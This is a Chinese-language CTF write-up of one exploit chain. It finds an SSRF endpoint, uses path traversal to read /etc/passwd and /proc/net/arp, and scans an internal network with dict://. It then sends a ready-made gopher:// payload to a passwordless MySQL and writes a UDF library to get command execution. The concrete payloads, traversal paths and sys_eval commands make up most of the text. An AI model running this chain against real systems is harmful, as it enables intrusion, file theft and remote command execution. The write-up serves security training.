

# 1. 寻找存在 SSRF 漏洞的接口

## 一些干扰接口

- **/api/alexa.php**

```http
POST /api/alexa.php HTTP/1.1

domain=www.sqlsec.com
```

返回包：

```json
{"rank":533579,"cate":"\u79d1\u6280\u6570\u7801","res":"d3d3LnNxbHNlYy5jb20="}
```

-  **/api/social.php**

```http
POST /api/social.php HTTP/1.1

domain=www.sqlsec.com
```

返回包：

```json
{"date":"6\u5e746\u670820\u5929","mail":"ce071@doamin.bytedance.com"}
```

-  **/api/icp.php**

```http
POST /api/icp.php HTTP/1.1

domain=www.sqlsec.com
```

返回包：

```json
{"icp":"\u9c81ICP\u590799918846\u53f7-3","name":"\u738b\u78ca","kind":"\u4e2a\u4eba","res":"d3d3LnNxbHNlYy5jb20="}
```

-  **/api/icp.php**

```http
POST /api/icp.php HTTP/1.1

domain=www.sqlsec.com
```

返回包：

```json
{"icp":"\u9c81ICP\u590799918846\u53f7-3","name":"\u738b\u78ca","kind":"\u4e2a\u4eba","res":"d3d3LnNxbHNlYy5jb20="}
```

-  **/api/speed.php**

```http
POST /api/speed.php HTTP/1.1

domain=www.sqlsec.com
```

返回包：

```json
{"speed":67,"score":0.6,"res":"d3d3LnNxbHNlYy5jb20="}
```

- **/api/random.php**

```http
GET /api/random.php?domain=www.sqlsec.com HTTP/1.1
```

返回包：

```json
{"domain1":"w2cf.bytedance.com","speed1":83,"score1":"\u5feb","style1":"text-success","domain2":"nyv.bytedance.com","speed2":69,"score2":"\u4e2d","style2":"text-info","domain3":"t0zj.bytedance.com","speed3":93,"score3":"\u5feb","style3":"text-success","domain4":"qj1.bytedance.com","speed4":63,"score4":"\u4e2d","style4":"text-info","domain5":"29.bytedance.com","speed5":33,"score5":"\u826f","style5":"text-warning","res":"d3d3LnNxbHNlYy5jb20="}
```

...... 还有一些干扰参数接口不一一列举了。

## 存在漏洞的接口

```http
POST /api/ip.php HTTP/1.1
Host: 10.85.113.212
Content-Length: 21

domain=www.sqlsec.com
```

返回包：

```json
{"ip":"domain","title":"\u56fd\u5149","res":"{curl 请求返回的原始数据内容的 Base64 编码}"
}
```

实际上其他接口的数据都是随机传递的，但是通过网站前台的功能：

 

可以看到正常获取了网站标题和 IP 地址，所以选手根据这个特征，在这个页面去抓包应该也可以很容易找到存在 SSRF 漏洞的接口的。

# 2. 验证是否存在 SSRF

## 绕过域名校验

这个接口的域名存在格式校验：

 

实际上这个只是浏览器前端 JS 校验，所以直接抓包在 BP 下面发 payload 即可绕过。 

## 外网正常请求


## 内网正常请求

 

# 3. 获取当前网段信息

## file 协议探测失败

直接通过 `domain=file:///etc/hosts` file 协议去请求的话，并拿不到结果（后端过滤了 file 协议）：

 

## 发现任意文件下载漏洞

所以得去网站前台找漏洞，从前台发现「查看词库」会触发词库的**下载**：

 

找到下载的接口：

```http
GET /api/word.php?src=/etc/passwd HTTP/1.1
```

发现直接通过 `/etc/passwd`这种全路径并不难直接下载文件（后端使用目录拼接了）

但是可以通过`../../../../../etc/passwd`这种路径穿越的格式下载服务器上任意文件：

 

## 读取文件判断内网网段

### 常规思路

通过 `/etc/hosts` 文件， 可以判断当前的内网网段为：**172.73.23.1/24**

 

### 捷径

也可以通过 `proc/net/arp` 文件，判断当前的内网的网关为：`172.73.23.1 `，而且可以直接发现内网中的另一个 IP 资产为：`172.73.23.100 `

 

这样就省去一个个探测消耗的时间了。

# 4. 内网资产发现

内网常见可探测的端口有：21、22、23、80、3306、6379、8080 等，通过上面知道内网的网段为：`172.73.23.1/24`，那么下面使用 SSRF 的漏洞接口，配合 dict 协议来对内网资产进行下资产探测：

  

发现内网资产：172.73.23.100 开放着 3306 端口，接下来重点是使用 SSRF 去攻击这个 MySQL 服务。

# 5. MySQL 信息收集

## 判断 MySQL 是否设置密码

```mysql
mysql -uroot -h 127.0.0.1 -e "select user(),version();"
```

本地 tcpdump 监听拿到传输数据包：

 

转换为原始的数据流，再转换为 goher 协议如下：

```
gopher://172.73.23.100:3306/_%a1%00%00%01%85%a2%3f%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%64%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%03%35%30%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%36%2e%35%31%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%18%00%00%00%03%73%65%6c%65%63%74%20%75%73%65%72%28%29%2c%76%65%72%73%69%6f%6e%28%29%01%00%00%00%01
```

URL 二次编码后如下：

```
gopher://172.73.23.100:3306/_%25a1%2500%2500%2501%2585%25a2%253f%2500%2500%2500%2500%2501%2508%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2564%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2503%2535%2530%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2536%252e%2535%2531%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2521%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2540%2540%2576%2565%2572%2573%2569%256f%256e%255f%2563%256f%256d%256d%2565%256e%2574%2520%256c%2569%256d%2569%2574%2520%2531%2518%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2575%2573%2565%2572%2528%2529%252c%2576%2565%2572%2573%2569%256f%256e%2528%2529%2501%2500%2500%2500%2501
```

成功拿到了当前的用户和版本信息：

 

证明内网的 MySQL 是没有密码的。 

## 寻找 MySQL 插件路径

同理寻找 MySQL 的插件目录：

```bash
mysql -uroot -h127.0.0.1  -e "show variables like 
'%plugin%';"
```

 

拿到插件目录为：

```
/usr/lib/mysql/plugin/
```


# 6. SSRF 攻击 MySQL

## 写入 udf.so 到插件目录下

通过 [UDF 辅助提权](https://www.sqlsec.com/tools/udf.html) 快速 copy payload 本地进行流量复现，构造最终的 payload 进行插件写入：

```bash
mysql -uroot -h127.0.0.1  -e "SELECT 0x7f454c4602010100000000000000000003003e0....0000001815200000...0000 INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';"
```

 

## 创建自定义函数

```bash
mysql -uroot -h127.0.0.1 -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';"
```

 

这个创建函数实际上没有响应，但是实际上已经创建成功了。

## 通过 udf.so 执行系统命令

```mysql
mysql -uroot -h127.0.0.1  -e "select sys_eval('cat /flag');"
```

 

成功拿到 flag，少个了 `}`，不过无伤大雅。
